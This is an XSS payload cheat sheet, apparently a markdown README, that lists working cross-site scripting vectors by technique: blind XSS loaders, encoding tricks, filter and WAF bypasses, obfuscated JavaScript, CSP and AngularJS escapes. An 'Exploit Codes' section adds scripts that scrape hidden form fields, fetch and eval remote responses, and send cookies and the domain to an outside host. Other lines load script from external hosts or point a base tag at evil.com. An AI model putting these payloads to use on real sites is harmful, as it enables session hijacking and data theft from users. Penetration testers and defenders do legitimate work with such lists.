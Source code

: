 > Blind XSS
```<script src=https://a007.xss.ht></script>```

> Encoding
```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```
```%253Cscript%253Ealert(1)%253C%252Fscript%253E```
```&lt;script&gt;confirm(1)&lt;/script&gt;```

> XML Based XSS
```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```
```<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>```

> Where :// is required after protocol
```javascript://%250aalert(1) ```

> XSS in email ID
```"\"><s>test"@gmail.com```

> alert, prompt, confirm is not allowed
```this[Object["keys"](this)[6]](1)```
```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```
```<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>```
```<svg/onload=t=/aler/.source+/t/.source;window.onerror=window[t];throw+1;//```
```[][`filter`][`constructor`](`ale`.concat(`rt\x28`.concat`0\x29`))();//```
```[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164\50\61\51')() ```
```([_,_____,_,_,__,___]=(__=[])+{___:__},[______,_,________,____,,_________,_______,__,,,__________]=[!!_____]+!_____+_____._____)[___+=_____+__________+__+______+_+________+___+______+_____+_][___](_________+_______+____+_+______+'(-~_____)')(__)```
```([,?,,,,??]=[]+{},[???,????,?????,??????,,???????,????????,?????????,,,??????????]=[!!?]+!?+?.?)[??+=?+??????????+?????????+???+????+?????+??+???+?+????][??](???????+????????+??????+????+???+'`1`')`````

> Simple bypasses
```<body onpageshow=alert(1)>```
```<k onsubmit=alert(1)>```
```<k oninput=alert(1)>```
```<style onload=alert(1)>```
```<html ontouchstart=alert(1)>MobileXSS```
```<marquee behavior="alternate" onstart=alert(1)>XSS</marquee>```
```<script/x>alert(1)</script/x>```
```<details ontoggle=alert()>```
```<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>```
```<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>```
```<a/href=//0>```
```<script src=//14.rs>```
```<base href=//evil.com>```
```" onfocus=alert(1) autofocus```

> Obfuscated vectors
```<imG/sRc=l oNerrOr=(prompt)() x>```
```<d3"<"/onclick="1>[confirm``]"<">XSS```
```<svg/x=">"/onload=confirm()//```
```<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>```
```<svg </onload ="1> (_=prompt,_(1)) "">```
```<w="/x="y>"/ondblclick=`<`[confir\u006d``]>XXS```
```<A/iD=x hREf=jav&#x09;ascript:prom&#x09;pt(doc&#x09;ument.coo&#x09;kie); id=x>XSS```

> Exploit Codes
```Hidden Field data ~```
```<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>```
```Response on server ~```
```<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//127.0.0.1:8080");a.send();</script>```
```Cookie stealing with JS protocol ~```
```javascript:void(a='//127.0.0.1');void(b=document.domain);void(c=a.concat(b));void(window.location.assign(c));```

> Javascript XSS
```data:,alert(1)```
```\'-alert(1)//```
```'}alert(1);{'```
```'-alert()-'```
```'}alert(1)%0A{'```
```\'}alert(1);{//```

> CSP Bypassed
```<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1></script> <embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1)}//' allowscriptaccess=always>```

> Angular JS
```{{constructor.constructor('alert(1)')()}} ```
```<x ng-app>{{constructor.constructor('alert(1)')()}}```

> Misc
```<script ~~~>confirm(1)</script ~~~>```
```window+=valueOf=alert(1)```
```[cookie].some(alert)```
```<svgonload=alert(1)>```
```"accesskey=X onclick=alert(1)+```
```-alert(1)//\       (quoteless xss inside js context when param is reflecting 2 times in same line)```
```<svg onload=setInterval`alert\x28document.domain\x29`>```
```(alert)(1)```
```a=alert,a(1)	```
```[1].find(alert)```
```top["al"+"ert"](1)```
```top[/al/.source+/ert/.source](1)```
```al\u0065rt(1)```
```top['al\145rt'](1)```
```top[8680439..toString(30)](1)```
```<svg onload=alert&lpar;1&rpar;>```
```<svg onload=alert&#x28;1&#x29>```
```<svg onload=alert&#40;1&#41>```
```<svg onload=setInterval`alert\x28document.domain\x29`>```
```"><input type="submit" formaction="javascript&colon;this&lsqb;'a'&plus;'lert'&rsqb;`1`">```
```<body onfocus=alert(1)>```
```<object data=javascript:alert(1)>```
```<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">```
```<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>```
```<IFRAME SRC="javascript:alert('XSS');"></IFRAME>```
```%253cscript%253ealert(document.cookie)%253c/script%253e```
```<audio/onloadstart=alert(1) src>```
```%u0025%u0075%u0066%u0066%u0031%u0063%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065%u0061%u006c%u0065%u0072%u0074%u0028%u0018%u0058%u0053%u0053%u0019%u0029%u003b%u0025%u0075%u0066%u0066%u0031%u0063%u002f%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065```
```%uff1cscript%uff1ealert(1);%uff1c/script%uff1e					```
```<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>                            akamai ghost wafbypass```


> Reference
```https://research.digitalinterruption.com/2018/12/18/a-deeper-look-into-xss-payloads/```
